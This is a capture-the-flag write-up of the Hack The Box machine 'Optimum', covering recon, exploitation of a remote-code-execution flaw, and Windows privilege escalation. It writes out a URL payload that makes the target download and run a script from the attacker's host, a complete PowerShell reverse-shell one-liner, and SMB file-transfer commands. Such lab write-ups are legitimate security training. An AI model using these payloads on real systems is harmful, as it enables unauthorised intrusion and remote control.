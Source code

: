 # Box 



![](img/Pasted%20image%2020210820060554.png)

https://app.hackthebox.eu/machines/Optimum

# Profile

 <img src="http://www.hackthebox.eu/badge/image/296177" alt="Hack The Box"> 

https://www.hackthebox.eu/home/users/profile/296177

# Table of contents

* [Reconnaissance](#reconnaissance)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)
* [Extra](#Extra)

# Contents 

## Reconnaissance

Let's start with nmap :

```bash
nmap -sV -sC -Pn --top-ports 1000 -oN scan_10.10.10.8 10.10.10.8
```


![](img/Pasted%20image%2020210820054321.png)

Going on the website, we see nothing interesting but using searchsploit we found a RCE exploit.

## Exploitation

![](img/Pasted%20image%2020210820054534.png)

I used this one `windows/remote/39161.py` , let's see how it works. 

![](img/Pasted%20image%2020210820054635.png)

![](img/Pasted%20image%2020210820054654.png)

So we have to setup a python server with `nc.exe` inside and to change port & ip adress for the reverse_shell.

![](img/Pasted%20image%2020210820054746.png)

I use a function to setup my python server but it is the same as usual.

![](img/Pasted%20image%2020210820054834.png)

Let's use the exploit now.

![](img/Pasted%20image%2020210820054931.png)


So we have a shell

![](img/Pasted%20image%2020210820054915.png)

## Post-Exploitation
### User

We already are user, but for some reasons powershell didn't work. 

I modified the payload manually and used a powershell reverse shell.

url to hit : 

```
http://10.10.10.8/?search=%00{.exec|C%3a\Windows\System32\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString(%27http%3a//10.10.14.13/rev.ps1%27).}
```

my reverse_shell : 

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.13',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

![](img/Pasted%20image%2020210820055201.png)

Now that's better.

### Root

To be able to copy file in my local directory, I setup a smbserver.

```
sudo smbserver.py share . -smb2support
```

![](img/Pasted%20image%2020210820055339.png)


Now let's mount it on the remote machine.

```
net use x: \\10.10.14.13\share
```

![](img/Pasted%20image%2020210820055531.png)

![](img/Pasted%20image%2020210820055456.png)

We are going to use `windows-exploit-suggester.py` to get a list of possible exploits. For this we need to extract the system information of the machine.

```
systeminfo > x:/systeminfo.txt
```

```
┌──(kali㉿kali)-[~/Hacking/tmp/smb]                                                                                                                                                                                                     
└─$ cat systeminfo.txt                                                                                                                
Host Name:                 OPTIMUM                                                                                                                                                                                                           
OS Name:                   Microsoft Windows Server 2012 R2 Standard                                                                                                                                                                         
OS Version:                6.3.9600 N/A Build 9600                                                                                                                                                                                           
OS Manufacturer:           Microsoft Corporation                                                                                                                                                                                             
OS Configuration:          Standalone Server                                                                                                                                                                                                 
OS Build Type:             Multiprocessor Free                                                                                                                                                                                               
Registered Owner:          Windows User                                                                                                                                                                                                      
Registered Organization:                                                                                                                                                                                                                     
Product ID:                00252-70000-00000-AA535                                                                                                                                                                                           
Original Install Date:     18/3/2017, 1:51:36                                                                                                                                                                                                
System Boot Time:          26/8/2021, 9:49:25                                                                                                                                                                                                
System Manufacturer:       VMware, Inc.                                                                                                                                                                                                      
System Model:              VMware Virtual Platform                                                                                                                                                                                           
System Type:               x64-based PC                                                                                                                                                                                                      
Processor(s):              1 Processor(s) Installed.                                                                                                                                                                                         
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz                                                                                                                                                   
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018                                                                                                                                                                         
Windows Directory:         C:\Windows                                                                                                                                                                                                        
System Directory:          C:\Windows\system32                                                                                                                                                                                               
Boot Device:               \Device\HarddiskVolume1                                                                                                                                                                                           
System Locale:             el;Greek
....
```

Let's run `windows-exploit-suggester.py`

```
./windows-exploit-suggester.py -i smb/systeminfo.txt -d ../tools/windows/2021-08-20-mssb.xls
```

There are a lot of results, but trying one by one it works : 
![](img/Pasted%20image%2020210820060056.png)

Getting it on my machine then copying it on my smbserver.

![](img/Pasted%20image%2020210820060226.png)

Rooted.

## Extra

Checking other people writeup, it seems there are other exploit working. (https://0xdf.gitlab.io/2021/03/17/htb-optimum.html)

MS16032 would have worked.

